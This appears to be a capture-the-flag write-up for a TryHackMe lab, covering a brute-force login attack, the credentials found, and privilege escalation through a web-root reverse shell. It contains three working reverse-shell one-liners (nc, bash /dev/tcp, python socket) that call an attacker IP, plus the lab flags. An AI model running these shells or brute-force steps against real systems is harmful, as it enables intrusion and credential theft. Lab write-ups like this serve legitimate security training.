 ### Year of the Pig ###

export IP=10.10.196.229


found an admin login page in which the password is hashed with md5 and then transmitted as post so trying a python script.

also the page looks like the flag of italy..

and also the a text which says:

''' Remember that passwords should be a memorable word, followed by two numbers and a special character '''

Made a whole python script to convert the passwd into md5 hashed and then pass it as a json request....also made a custom wordlist using cewl of the home page...with that hint in mind...brute forcing all possible combinations...


[~] Trying  savoia21!
[+] Found  marco:savoia21!

Found curtis as another user on the system

nc -e /bin/bash 10.11.18.102 6000

bash -i >& /dev/tcp/10.11.18.102/6000 0>&1

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.18.102",6000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

ssh'ed with same creds:

#Flag1.txt:
THM{MDg0MGVjYzFjY2ZkZGMzMWY1NGZiNjhl}

found an admin.db in /var/www's dir:

but i needed to be as www-data to access that.
so uploaded a rev shell in marco's home dir
and moved it to /var/www/html
accessed it through the browser
got a rev shell i was www-data.

fired up a python sv as www-data on the target url...
wgeted admin.db in my machine and found the passwd:

curtis:	Donald1983$

# Flag2.txt:
THM{Y2Q2N2M1NzNmYTQzYTI4ODliYzkzMmZh}


# Flag3.txt:
THM{MjcxNmVmYjNhYzdkZDc0M2RkNTZhNDA0}